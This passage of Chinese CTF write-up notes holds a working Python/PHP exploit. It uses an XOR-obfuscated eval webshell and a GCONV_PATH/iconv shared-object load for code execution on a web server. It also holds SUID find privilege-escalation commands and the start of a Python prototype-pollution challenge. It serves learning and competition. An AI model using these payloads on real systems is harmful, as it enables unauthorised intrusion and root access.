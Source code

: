 			  gconv_content = encoder.base64_encode("""\
			  module  exp//    INTERNAL    /var/www/html/exp    2
			  module  INTERNAL   exp//    /var/www/html/exp    2
			  """)
			  
			  shell.exec("rm exp.so; gcc exp.c -o exp.so -shared -fPIC")
			  print(shell.exec("md5sum exp.so"))
			  with open("exp.so", "rb") as f:
			      b = encoder.base64_encode(f.read())
			  
			  eval_payload = """
			  var_dump('start');
			  @unlink('exp.so');
			  file_put_contents('exp.so', base64_decode('EXP_CONTENT'));
			  file_put_contents('gconv-modules', base64_decode('GCONV_CONTENT'));
			  echo md5_file('exp.so');
			  sleep(0.5);
			  putenv("GCONV_PATH=/var/www/html/");
			  iconv("exp", "UTF-8", "");
			  
			  $a=new DirectoryIterator("glob:///tmp/t*");
			  foreach($a as $f){
			  	echo $f.' ';
			  }
			  highlight_file('/tmp/t.txt');
			  var_dump('stop');
			  """.replace("EXP_CONTENT", b).replace("GCONV_CONTENT", gconv_content)
			  payload = """
			  ('@$@@V@#@#@@V@@@'^'#V%!"%|&V.#")/.')('',('@@V@@vev,e%vv%@V@!v^|'^'=% !,^A)|*v"-A!"!|_e_'));
			  """.strip()
			  r = base_post(url, params = {
			      "data": payload
			  }, data = {
			      "data": eval_payload
			  })
			  print(r.url)
			  print(r.text)
			  ```
	- 然后find提权
		- 寻找特殊权限的文件`find / -perm -u=s -type f 2>/dev/null`看到find
		- find提权方式：
			- ```shell
			  find . -exec whoami \; -quit
			  find . -exec sh -cp 'whoami' \; -quit
			  find . -exec sh -p \; -quit
			  ```
- # ezpython
  collapsed:: true
	- 参考
		- [[CTF/Python/Python的原型链污染]]
	- 思路
		- 用python原型链污染伪造`isvip`
		- 用unicode编码绕过waf
		- fuzz绕过奇葩的num参数
	- python的原型链污染（我更愿意叫“属性污染”）
		- 需要伪造其中的`isvip`来通过检测
			- ```python
			  class User:
			      def __init__(self):
			          self.username = ""
			          self.password = ""
			          self.isvip = False
			  